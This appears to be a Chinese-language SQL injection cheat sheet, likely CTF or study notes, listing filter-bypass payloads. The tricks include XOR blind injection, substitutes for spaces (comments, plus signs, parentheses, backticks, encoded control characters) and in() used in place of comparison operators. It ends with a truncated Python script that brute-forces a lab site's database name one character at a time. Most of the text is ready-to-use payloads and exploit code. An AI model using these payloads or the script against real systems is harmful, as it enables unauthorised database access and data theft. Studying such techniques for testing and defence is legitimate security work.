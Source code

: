 ```sql
and => &&
or => ||
```

**异或绕过**

```sql
异或运算规则:
1^1=0 0^0=0 0^1=1
1^1^1=0 1^1^0=0
构造payload:'^ascii(mid(database(),1,1)=98)^0
```

**注意**: 这里会多加一个^0或1是因为在盲注的时候可能出现了语法错误也无法判断,而改变这里的0或1,如果返回的结果是不同的,那就可以证明语法是没有问题的

### 过滤空格绕过

```sql
# 使用注释符/**/代替空格:
select/**/database();

# 使用加号+代替空格:(只适用于GET方法中)
select+database();
# 注意: 加号+在URL中使⽤记得编码为%2B: select%2Bdatabase(); (python中不用)

# 使⽤括号嵌套:
select(group_concat(table_name))from(information_schema.taboles)where(tabel_schema=database());

# 使⽤其他不可⻅字符代替空格:
%09, %0a, %0b, %0c, %0d, %a0

#利用``分隔进行绕过
select host,user from user where user='a'union(select`table_name`,`table_type`from`information_schema`.`tables`);
```

有些特殊情况也可以使用^异或盲注

### 过滤括号绕过

### 过滤比较符号(=、<、>)绕过

#### 使用in()绕过

```sql
/?id=' or ascii(substr((select database()),1,1)) in(114)--+    // 错误
/?id=' or ascii(substr((select database()),1,1)) in(115)--+    // 正常回显

/?id=' or substr((select database()),1,1) in('s')--+    // 正常回显
```

脚本

```python
import requests

url = "http://b8e2048e-3513-42ad-868d-44dbb1fba5ac.node3.buuoj.cn/Less-8/?id="

payload = "' or ascii(substr((select database()),{0},1)) in({1})--+"
flag = ''
if __name__ == "__main__":
    for i in range(1, 100):
        for j in range(37,128):
            url = "http://b8e2048e-3513-42ad-868d-44dbb1fba5ac.node3.buuoj.cn/Less-8/?id=' or ascii(substr((select database()),{0},1)) in({1})--+".format(i,j)
            r = requests.get(url=url)
            if "You are in" in r.text:
```